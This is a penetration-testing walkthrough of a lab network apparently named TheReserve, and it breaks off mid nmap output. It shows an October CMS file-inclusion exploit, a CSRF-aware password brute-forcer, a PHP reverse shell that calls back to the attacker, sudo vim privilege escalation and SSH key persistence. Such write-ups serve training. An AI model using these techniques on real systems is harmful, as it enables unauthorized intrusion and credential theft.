

# Breaching the perimeter

## Preparations

We will setup some host configuration in order to ease the enumeration :

```shell
echo "10.200.121.11  l  thereserve-mail.thm" >> /etc/hosts
echo "10.200.121.12    thereserve-vpn.thm" >> /etc/hosts
echo "10.200.121.13    thereserve-web.thm" >> /etc/hosts
```

## Public web site: thereserve-web.thm

### Enumeration

Let's start by enumerate the exposed services :

```shell
nmap -p- thereserve-web.thm
```

Result:

```text
Nmap scan report for thereserve-web.thm (10.200.121.13)
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 11.65 seconds
```

deeper enumerate these services :

```shell
nmap -p 22,80 -sC -sV -A thereserve-web.thm
```

Result:

```text
Nmap scan report for thereserve-web.thm (10.200.121.13)
Host is up (0.049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89e27330c37808d903212ee22ef89efa (RSA)
|   256 460d9c2e7e95afc1a5266cf82975857e (ECDSA)
|_  256 bf7a5cd333ecb7ab4fe49d03c2e2616d (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   29.47 ms 10.50.118.1
2   29.55 ms thereserve-web.thm (10.200.121.13)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.26 seconds
```

Enumerating the directories and pages do not reveal anything interesting, except a PHP info page accessible :

```shell
gobuster dir -u http://thereserve-web.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x php
```

```text
/info.php             (Status: 200) [Size: 93591]
```

We can browse the website :

```shell
firefox http://thereserve-web.thm &
```


The Wappalyzer plugin can gather some informatrion on the technologies used:

- CMS: October CMS
- programming langage: PHP
- web framework: Lavravel
- Operating System: Ubuntu (Linux)

On the Meet the team page, we have some employes, and potential usernames :


In the source code of the page, and can get also some missing names :

```html
            
```

and more :

| Name | Role |
| --- | --- |
| Brenda Henderson | Bank Director|
| Leslie Morley | Deputy Director |
| Martin Savage | Deputy Director |
| Paula Bailey | CEO |
| Christopher Smith| CIO |
| Antony Ross | CTO |
| Charlene Thomas | CMO |
| Rhys Parsons | COO |
| Lynda Gordon | Assistant |
| Roy Sims | project manager |
| Laura Wood | Corporate Customer Investment Managers |
| Emily Harvey | Corporate Customer Investment Managers |
| Ashley Chan | Corporate Customer Investment Managers |
| Keith Allen | Corporate Customer Investment Managers | 
| Mohammad Ahmed | Corporate Customer Investment Managers |

At the bottom of the pages, there are the name of 2 developpers :

```text
Aimee Walker & Patrick Edwards. Lead Developers at TheReserve
```


This seems to be a demo of a todo list application.

One more email: applications@corp.thereserve.loc

From one of the image URL : `http://thereserve-web.thm/october/themes/demo/assets/images/brenda.henderson.jpeg`

We can browse into directories : `http://thereserve-web.thm/october/themes/demo/assets/images/`


We generate a username list from this :

```shell
curl -s http://thereserve-web.thm/october/themes/demo/assets/images/ | grep -oE '"[a-z]*\.[a-z]*' | cut -d'"' -f2 > usernames.txt
echo "aimee.walker" >> usernames.txt
echo "patrick.edwards" >> usernames.txt
```

`usernames.txt` :

```text
antony.ross
ashley.chan
brenda.henderson
charlene.thomas
christopher.smith
emily.harvey
keith.allen
laura.wood
leslie.morley
lynda.gordon
martin.savage
mohammad.ahmed
october.pn
october.png
paula.bailey
rhys.parsons
roy.sims
aimee.walker
patrick.edwards
```

Knowing the mail `applications@corp.thereserve.loc`, we generate the same list with emails (append `@corp.thereserve.loc`) :

```bash
while IFS= read -r line; do
  echo "${line}@corp.thereserve.loc"
done < usernames.txt > user_emails.txt
```

While searching on octoberCMS on internet, it quickly appears there is a backend : [http://thereserve-web.thm/october/index.php/backend/](http://thereserve-web.thm/october/index.php/backend/) which redirect to a login page :


Using burpsuite and trying to authenticate with a user 'admin', there is a response :

```html
        <!-- Flash Messages -->
        <div id="layout-flash-messages">    <p data-control="flash-message" class="flash-message fade error" data-interval="5">A user was found to match all plain text credentials however hashed credential &quot;password&quot; did not match.</p>
</div>
```

So user 'admin' exists on this CMS. When the user is unknown, there is a different response (ex. with user 'john') :

```html
        <!-- Flash Messages -->
        <div id="layout-flash-messages">    <p data-control="flash-message" class="flash-message fade error" data-interval="5">A user was not found with the given credentials.</p>
      </div>
```

Using Burpsuite and 2 files containing usernames and emails, none seems to be valid.

### Vulnerability: CVE-2018-1999009

After searching and testing vulnerabilities, it appears that this instance of octoberCMS is vulneralbe to : CVE-2018-1999009 Local File Inclusion in October CMS, for versions prior to Build 437.

When visiting the login form at : http://thereserve-web.thm/october/index.php/backend/backend/auth/signin

add the following HTTP Headers in the POST request :

```text
X-OCTOBER-REQUEST-HANDLER: onAjax
X-OCTOBER-REQUEST-PARTIALS: /etc/passwd
X-Requested-With: XMLHttpRequest
```

As a result, the file /etc/passwd is read :

```json
{"\/etc\/passwd":"root:x:0:0:root:\/root:\/bin\/bash\ndaemon:x:1:1:daemon:\/usr\/sbin:\/usr\/sbin\/nologin\nbin:x:2:2:bin:\/bin:\/usr\/sbin\/nologin\nsys:x:3:3:sys:\/dev:\/usr\/sbin\/nologin\nsync:x:4:65534:sync:\/bin:\/bin\/sync\ngames:x:5:60:games:\/usr\/games:\/usr\/sbin\/nologin\nman:x:6:12:man:\/var\/cache\/man:\/usr\/sbin\/nologin\nlp:x:7:7:lp:\/var\/spool\/lpd:\/usr\/sbin\/nologin\nmail:x:8:8:mail:\/var\/mail:\/usr\/sbin\/nologin\nnews:x:9:9:news:\/var\/spool\/news:\/usr\/sbin\/nologin\nuucp:x:10:10:uucp:\/var\/spool\/uucp:\/usr\/sbin\/nologin\nproxy:x:13:13:proxy:\/bin:\/usr\/sbin\/nologin\nwww-data:x:33:33:www-data:\/var\/www:\/bin\/bash\nbackup:x:34:34:backup:\/var\/backups:\/usr\/sbin\/nologin\nlist:x:38:38:Mailing List Manager:\/var\/list:\/usr\/sbin\/nologin\nirc:x:39:39:ircd:\/var\/run\/ircd:\/usr\/sbin\/nologin\ngnats:x:41:41:Gnats Bug-Reporting System (admin):\/var\/lib\/gnats:\/usr\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/nonexistent:\/usr\/sbin\/nologin\nsystemd-network:x:100:102:systemd Network Management,,,:\/run\/systemd\/netif:\/usr\/sbin\/nologin\nsystemd-resolve:x:101:103:systemd Resolver,,,:\/run\/systemd\/resolve:\/usr\/sbin\/nologin\nsyslog:x:102:106::\/home\/syslog:\/usr\/sbin\/nologin\nmessagebus:x:103:107::\/nonexistent:\/usr\/sbin\/nologin\n_apt:x:104:65534::\/nonexistent:\/usr\/sbin\/nologin\nlxd:x:105:65534::\/var\/lib\/lxd\/:\/bin\/false\nuuidd:x:106:110::\/run\/uuidd:\/usr\/sbin\/nologin\ndnsmasq:x:107:65534:dnsmasq,,,:\/var\/lib\/misc:\/usr\/sbin\/nologin\nlandscape:x:108:112::\/var\/lib\/landscape:\/usr\/sbin\/nologin\nsshd:x:109:65534::\/run\/sshd:\/usr\/sbin\/nologin\npollinate:x:110:1::\/var\/cache\/pollinate:\/bin\/false\nubuntu:x:1000:1000:Ubuntu:\/home\/ubuntu:\/bin\/bash\nmysql:x:111:116:MySQL Server,,,:\/nonexistent:\/bin\/false\n","#layout-flash-messages":"    <p data-control=\"flash-message\" class=\"flash-message fade error\" data-interval=\"5\">A user was found to match all plain text credentials however hashed credential &quot;password&quot; did not match.<\/p>\n"}
```

Article : https://blog.liiver.ee/cve-2018-1999009-local-file-inclusion-in-october-cms/

It's not possible to display content PHP files as they are loaded instead. We still can access `/etc/apache2/sites-enabled/000-default.conf` for example :

```text
X-OCTOBER-REQUEST-HANDLER: onAjax
X-OCTOBER-REQUEST-PARTIALS: /etc/apache2/sites-enabled/000-default.conf
X-Requested-With: XMLHttpRequest
```

```json
{"\/etc\/apache2\/sites-enabled\/000-default.conf":"<VirtualHost *:80>\n\t# The ServerName directive sets the request scheme, hostname and port that\n\t# the server uses to identify itself. This is used when creating\n\t# redirection URLs. In the context of virtual hosts, the ServerName\n\t# specifies what hostname must appear in the request's Host: header to\n\t# match this virtual host. For the default virtual host (this file) this\n\t# value is not decisive as it is used as a last resort host regardless.\n\t# However, you must set it for any further virtual host explicitly.\n\t#ServerName www.example.com\n\n\tServerAdmin webmaster@localhost\n\tDocumentRoot \/var\/www\/html\n\n\t# Available loglevels: trace8, ..., trace1, debug, info, notice, warn,\n\t# error, crit, alert, emerg.\n\t# It is also possible to configure the loglevel for particular\n\t# modules, e.g.\n\t#LogLevel info ssl:warn\n\n\tErrorLog ${APACHE_LOG_DIR}\/error.log\n\tCustomLog ${APACHE_LOG_DIR}\/access.log combined\n\n\t# For most configuration files from conf-available\/, which are\n\t# enabled or disabled at a global level, it is possible to\n\t# include a line for only one particular virtual host. For example the\n\t# following line enables the CGI configuration for this host only\n\t# after it has been globally disabled with \"a2disconf\".\n\t#Include conf-available\/serve-cgi-bin.conf\n<\/VirtualHost>\n\n# vim: syntax=apache ts=4 sw=4 sts=4 sr noet\n","#layout-flash-messages":"    <p data-control=\"flash-message\" class=\"flash-message fade error\" data-interval=\"5\">The password must be between 4 - 255 characters.<\/p>\n"}
```

But nbot must information here.

### Information disclosure on error

When removing in the POST request to login :

```text
POST /october/index.php/backend/backend/auth/signin HTTP/1.1
Host: thereserve-web.thm
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://thereserve-web.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.121 Safari/537.36
Connection: close

login=admin&password=admin
```

This trigger an error, and disclose information :


Removing the token attribute seems to have cause this error.

This reveal the location of octoberCMS on the server :
`/var/www/html/october/`

### Bruteforcing the login page

We know trhat there is an account "admin" from the error messages.

The login proces involve a CSRF token and a cookie. A `GET` request wil return :


- a Cookie, to be re-send in the POST request
- a meta "CSRF-token, that is also the "_token" value that will be sent in the parameters of the form
- a "_sesion_value" that will also be sent in the parameters of the form

The POST request :


An additionnal parameter "postback=1" is added with the login and pasword.

Knowing this, we can craft a python script that would be able to handle this mechanics, and try multiple passwords.

Quickly, it appears there is a protection to suspend this account because of the to many password attempt :

```text
        <!-- Flash Messages -->
        <div id="layout-flash-messages">    <p data-control="flash-message" class="flash-message fade error" data-interval="5">User [admin] has been suspended.</p>
</div>
```

Hopefuly, after a few minutes, the account is unlocked.

This imply 2 things :

- we cannot make attempt too fast (as a try, we add a 10 seconds delay between attempts)
- we should reduce the used dictionary size

Knowing 2 passwords, we can imagine a rule to generate more passwords in the same format. We could start with something strict, and then make something broader.

So we have the word "Password", then a digit, then a special character. We could use the rockyou dictionary as a starting point, and get all passwords matching our rule.

We can search al passwords starting with the word "paswword" in cas insensitive, then a digit, then a special character :

```shell
cat /usr/share/wordlists/rockyou.txt | grep -E '^[pP][aA][sS]{2}[wW][oO][rR][dD][0-9][!@#$%^]$' > web-passwords.txt
```

Then, let's call our script with this :

```shell
./CSRFBrute.py --passwords web-passwords.txt --username admin --url http://thereserve-web.thm/october/index.php/backend/backend/auth/signin --message "did not match." --csrfname "_token" -v
```

Result:

```text
======================================================================
[+] Logged in sucessfully

-------------------------------------------------------------

[*] Credentials:	admin:password1!
```

so we have a valid password !!

the python script :

```python
#!/usr/bin/python3

# cat /usr/share/wordlists/rockyou.txt | grep -E '^[pP][aA][sS]{2}[wW][oO][rR][dD][0-9][!@#$%^]$' > web-passwords.txt

# ./CSRFBrute.py --passwords web-passwords.txt --username admin --url http://thereserve-web.thm/october/index.php/backend/backend/auth/signin --message "did not match." --csrfname "_token" -v

import requests
import sys

# pip install bs4
from bs4 import BeautifulSoup
import argparse
import time


def getToken(url, csrfname, request):
  page = request.get(url)
  html_content = page.text
  soup = BeautifulSoup(html_content, features="lxml")
  
  try:
    token = soup.find('input', {"name":csrfname}).get("value")
  except AttributeError:
    print("[-] Wrong csrf token name")
    sys.exit(1)

  return token

def connect(username, password, url, csrfname, token, sessionfname, sessionKey, message, request):
  login_info = {
    #"useralias": username,
    "login": username,
    "password": password,
    #"submitLogin": "Connect",
    csrfname: token,
    sessionfname: sessionKey,
    "postback": 1
  }

  #print("=======" * 10)
  #print(login_info)
  #print( csrfname )
  #print( token )
  #print( sessionfname )
  #print( sessionKey )
  #print("=======" * 10)
  
  login_request = request.post(url, login_info)

  #print("=======" * 10)
  #print(login_request.text)
  #print("=======" * 10)

  if message not in login_request.text:
    print("=======" * 10)
    print(login_request.text)
    print("=======" * 10)
    return True

  else:
    return False

def tryLogin(username, password, url, csrfname, sessionfname, message, request):
  print("[+] Trying "+username+":"+password+" combination")
  print("[+] Retrieving CSRF token to submit the login form")

  token = getToken(url, csrfname, request)
  print("[+] Login token is : {0}".format(token))

  sessionKey = getToken(url, sessionfname, request)
  print("[+] Session token is : {0}".format(sessionKey))

  found = connect(username, password, url, csrfname, token, sessionfname, sessionKey, message, request)
  
  if (not found):
    print("[-] Wrong credentials")
    # delay here to try to avoid to lock the account
    time.sleep(10)
    return False
  else:
    print("[+] Logged in sucessfully")
    return True

def printSuccess(username, password):
  print("-------------------------------------------------------------")
  print()
  print("[*] Credentials:\t"+username+":"+password)
  print()

if __name__ == '__main__':
  parser = argparse.ArgumentParser()
  
  # usernames can be one or more in a wordlist, but this two ptions are mutual exclusive  
  user_group = parser.add_mutually_exclusive_group(required=True)
  user_group.add_argument('-l', '--username', help='username for bruteforce login')
  user_group.add_argument('-L', '--usernames', help='usernames worldlist for bruteforce login')
  
  # passwords can be one or more in a wordlist, but this two ptions are mutual exclusive
  pass_group = parser.add_mutually_exclusive_group(required=True)
  pass_group.add_argument('-p', '--password', help='password for bruteforce login')
  pass_group.add_argument('-P', '--passwords', help='passwords wordlist for bruteforce login')

  # url
  parser.add_argument('-u', '--url', help='Url with login form', required=True)

  # csrf
  parser.add_argument('-c', '--csrfname', help='The csrf token input name on the login', required=True)

  # error message
  parser.add_argument('-m', '--message', help="The message of invalid cretials in the page after submit", required=True)

  # verbosity
  parser.add_argument('-v', '--verbosity', action='count', help='verbosity level')

  args = parser.parse_args()

  sessionfname = "_session_key"

  # one username and more passwords
  if (args.usernames == None and args.password == None):
    with open(args.passwords, 'rb') as passfile:
      for passwd in passfile.readlines():
        reqSess = requests.session()
        
        if (args.verbosity != None):
          found = tryLogin(args.username, passwd.decode().strip(), args.url, args.csrfname, sessionfname, args.message, reqSess)
          print()
        else:
          token = getToken(args.url, args.csrfname, reqSess)
          sessionKey = getToken(args.url, sessionfname, reqSess)
          found = connect(args.username, passwd.decode().strip(), args.url, args.csrfname, token, sessionfname, sessionKey, args.message, reqSess)

        if (found):
          printSuccess(args.username, passwd.decode().strip())
          sys.exit(1)

```

We can log in :


We can confirm here the build version : 412

We can explore the admin interface, and we find a possibility to upload php files :


We can create a PHP revershell :

```shell
cp /opt/seclists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php xyz456789.php
```

In the begining og the file, we have to update our IP address :

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.50.118.105';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Then we can upload this file, and execute it by calling it's URL. a netcat listener wil recive the call :

```shell
nc -nvlp 8888
```

### privilege escalation

After a quick enumeration, it apears that the curent user "www-data" have a sudoer privilege :

```shell
$ sudo -S -l
```

```text
Matching Defaults entries for www-data on ip-10-200-121-13:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-200-121-13:
    (root) NOPASSWD: /usr/bin/vim
```

As pointed by [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo), we can have a rot shell with :


So :

```shell
sudo /usr/bin/vim -c :!/bin/bash
```

And we have a root shell.

Host is compromised.

### to the internal network

There is a single user "ubuntu", and this account can do ssh with keys to login ("/home/ubuntu/.ssh/authorized_keys").

```shell
ssh-keygen -t rsa -b 4096 -f web-key
```

Then add the public key to allow access :

```shell
cat <<EOF >> /home/ubuntu/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDlDaSbYHobSEXxXwEkPM7fwfIXZ+DPXZJuwtXPGy/+P4FeZRdVLJELFi+U/hwgF+rRQ5DRqF89xGAc13kEhjmwjZtBiSnV/byL7Zl122dhAe9wE8HFEPTLtkswOGTmvNvyQOOZD/5IsrYm1cf3n4h7o1KTqVlwOuHnCKl5gZLiQH/MiZLpI8qE6L/1VrJUGSwqYrQQSlhdN7FL0J8TXdN1vOk0m0jH4q/5x2LQFiT1OZtVM/uClrxTxoNAgFX3UZ/9YOXjj2Dj3zktZ5+byoObT44ckOztbdFo2W7K6OTQksf27s4vJDuHXa+b0NwKbFibQAm4Bv2YWDXUrqFxWeiSqFrZhOlnMzSkHQIREGb1EihiAzw3T7z6ZSqtmdC/ENEBiWhvjD5R/QzjbRK178LZ3gvrFRyHMvZl9uKja+7oJ/ZO8NUj2BJMOE2FZt+5VRVs7E4udnC/qaUoAQOSLfKS3M8qhBDOAZwNtdgbJxQDylUqs2P2DqgPCr/nPyTjhrlpvocl7FWVGOv8GrB4uS8ys/EQde1GnjUoUsFWuCUc1mZ2taXcdgvNH4kWGp1zUTdvu/rdx0og3eytiPNr8N1TC1r9GX6deHN/GEojVC0QTh5/+c5gfx5tpe/tKy90GANw6RUa1Wb7UYMluHeghJ6S7ediwjpobRWBbe7h/BR7LQ== mentalyDisturbed
EOF
```

Now we can login as user "ubuntu" and do a Dynamic Port Forwarding :

```shell
ssh ubuntu@thereserve-web.thm -D 8000 -i ./web-key
```

## vpn server: thereserve-vpn.thm

### Enumeration

```shell
nmap -p- thereserve-vpn.thm
```

Result:

```text
Nmap scan report for thereserve-vpn.thm (10.200.121.12)
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1194/tcp open  openvpn

Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

Then enumerate deeper these ports :

```shell
nmap -p 22,80,1194 -sC -sV -A 10.200.121.12
```

Result:

```text
Nmap scan report for thereserve-vpn.thm (10.200.121.12)
Host is up (0.054s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6307e07f4f72e31f1d4d06e9b57c59e6 (RSA)
|   256 3c86c5288b9b08a82b228f472390e1bc (ECDSA)
|_  256 fcf63018efb6425fa0ddbefb2dcb087a (ED25519)
80/tcp   open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: VPN Request Portal
|_http-server-header: Apache/2.4.29 (Ubuntu)
1194/tcp open  openvpn?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (92%), Linux 3.1 - 3.2 (92%), Linux 3.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.7 - 3.10 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   69.03 ms 10.50.118.1
2   23.57 ms thereserve-vpn.thm (10.200.121.12)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.62 seconds
```

### the web aplication

We can browser to : http://thereserve-vpn.thm/


when testing this login form, we can notice the username and password are passed in the URL:

http://thereserve-vpn.thm/login.php?user=john&password=doe

From the source code:

```html
        <H3>VPN Portal Login</H3>
        <div class='login-container'>
          <form class="form-inline" action="/login.php">
            <label for="email">User:</label>
              <input type="user" id="user" placeholder="Enter user" name="user">
            <label for="pwd">Password:</label>
              <input type="password" id="pwd" placeholder="Enter password" name="password">
              <br/>
              Note: Your internal account should be used.
              <br/>
            <div class='submit-container'>
              <label>
              <button type="submit">Submit</button>
                <input type="checkbox" name="remember"> Remember me
              </label>
            </div>
          </form>
        </div>
```

This suggest the username is the email.

We can enumerate this site :

```shell
gobuster dir -u http://thereserve-vpn.thm/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

Result:

```text
/vpn                  (Status: 301) [Size: 312] [--> http://thereserve-vpn.thm/vpn/]
/vpns                 (Status: 301) [Size: 313] [--> http://thereserve-vpn.thm/vpns/]
/server-status        (Status: 403) [Size: 278]
```

http://thereserve-vpn.thm/vpn/



We can get a VPN configuration file :

```shell
wget http://thereserve-vpn.thm/vpn/corpUsername.ovpn -O corpUsername.ovpn
```

In this ovpn file, we need to update the settings from :

```text
remote 10.200.X.X 1194
```

to:

```text
remote 10.200.121.12 1194
```

We can name this file according to the IP range for example, and get the connexion :

```shell
wget -q http://thereserve-vpn.thm/vpn/corpUsername.ovpn -O corpUsername.ovpn
sed 's/remote 10.200.X.X 1194/remote 10.200.121.12 1194/' corpUsername.ovpn > corpUsername-118.ovpn
openvpn corpUsername-118.ovpn
```

The connexion open, and we get some items in the openvpn log :

```text
net_iface_up: set tun0 up
net_addr_v4_add: 12.100.1.9/24 dev tun0
net_route_v4_add: 172.32.5.21/32 via 12.100.1.1 dev [NULL] table 0 metric 1000
net_route_v4_add: 172.32.5.22/32 via 12.100.1.1 dev [NULL] table 0 metric 1000
```

There seem to be 3 more machine, 12.100.1.1 (a gateway/router), 172.32.5.21 and 172.32.5.22, and appears to be in another subnet.

Theses hosts are out of scope.

There seem to be something wrong with this configuration, so we can try to correct it.

We will add the 2 routes to host .21 and .22 in the right subnet :

- `route 10.200.121.21 255.255.255.255`
- `route 10.200.121.22 255.255.255.255`

```shell
wget -q http://thereserve-vpn.thm/vpn/corpUsername.ovpn -O corpUsername.ovpn
sed "s/remote 10.200.X.X 1194/remote 10.200.121.12 1194\\nroute 10.200.121.21 255.255.255.255\\nroute 10.200.121.22 255.255.255.255/" corpUsername.ovpn > corpUsername-118.ovpn
openvpn corpUsername-118.ovpn
```

With a quick test, this is working, and 2 new hosts could be enumerated :

```shell
nmap 10.200.121.22 -Pn
```

Result:

```text
Nmap scan report for 10.200.121.22
Host is up (0.077s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 22.83 seconds
```

## mail server: thereserve-mail.thm

### Enumeration

Let's start by enumerate the exposed services :

```shell
nmap -p- thereserve-mail.thm
```

Result:

```text
Nmap scan report for thereserve-mail.thm (10.200.121.11)
Host is up (0.032s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
143/tcp   open  imap
445/tcp   open  microsoft-ds
587/tcp   open  submission
3306/tcp  open  mysql
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
33060/tcp open  mysqlx
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49670/tcp open  unknown
49672/tcp open  unknown
49677/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 45.21 seconds
```

Let's enumerate deeper these services :

```shell
nmap -p- -sC -sV -A thereserve-mail.thm
```

Result:

```text
Nmap scan report for thereserve-mail.thm (10.200.121.11)
Host is up (0.031s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 f36c52d27fe90e1cc1c7ac962cd1ec2d (RSA)
|   256 c2563cedc4b069a8e7ad3c310505e985 (ECDSA)
|_  256 d3e5f07375d520d9c0bb4199e7afa000 (ED25519)
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: IDLE ACL QUOTA CAPABILITY IMAP4rev1 NAMESPACE completed OK SORT IMAP4 RIGHTS=texkA0001 CHILDREN
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3306/tcp  open  mysql         MySQL 8.0.31
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_8.0.31_Auto_Generated_Server_Certificate
| Not valid before: 2023-01-10T07:46:11
|_Not valid after:  2033-01-07T07:46:11
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.31
|   Thread ID: 1586
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, IgnoreSigpipes, FoundRows, InteractiveClient, ODBCClient, Speaks41ProtocolNew, SupportsCompression, SwitchToSSLAfterHandshake, DontAllowDatabaseTableColumn, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, Speaks41ProtocolOld, ConnectWithDatabase, SupportsTransactions, LongPassword, LongColumnFlag, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
|   Status: Autocommit
|   Salt: V8\x0C55\]`\x159\x04E<aVN;\x05A`
|_  Auth Plugin Name: caching_sha2_password
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2023-05-21T19:03:50+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: THERESERVE
|   NetBIOS_Domain_Name: THERESERVE
|   NetBIOS_Computer_Name: MAIL
|   DNS_Domain_Name: thereserve.loc
|   DNS_Computer_Name: MAIL.thereserve.loc
|   DNS_Tree_Name: thereserve.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2023-05-21T19:03:39+00:00
| ssl-cert: Subject: commonName=MAIL.thereserve.loc
| Not valid before: 2023-01-09T06:02:42
|_Not valid after:  2023-07-11T06:02:42
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.93%I=7%D=5/21%Time=646A6ACF%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\
